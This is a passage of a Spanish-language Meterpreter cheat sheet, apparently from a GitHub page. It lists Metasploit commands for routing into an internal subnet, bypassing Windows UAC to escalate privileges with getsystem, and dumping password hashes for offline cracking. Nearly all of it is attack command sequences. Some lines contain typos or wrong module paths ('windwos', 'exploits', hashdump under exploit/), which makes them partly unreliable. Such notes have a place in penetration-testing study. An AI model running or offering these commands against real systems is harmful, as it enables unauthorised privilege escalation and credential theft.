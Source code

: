 ```
run autoroute -s 172.18.1.0 -n 255.255.255.0
```

<h4 id="meterpreter-11">Ejemplo de bypass del UAC (User Account Control) Policy</h4>

> Tener en cuenta que en sistemas Windows modernos, el UAC previene la escalación de privilegios, por lo tanto, solo con getsystem no será suficiente.

```
background
search bypassuac
use exploit/windwos/local/bypassuac
show options
set session 1
exploits
getuid
getsystem
```

<h4 id="meterpreter-12">Ejemplo de dumping de la base de datos de las passwords</h4>

Esto entrega los hashes, que permiten realizar un crackeo offline.

```
background
use exploit/windows/gather/hashdump
show options
set session 2
exploit
```
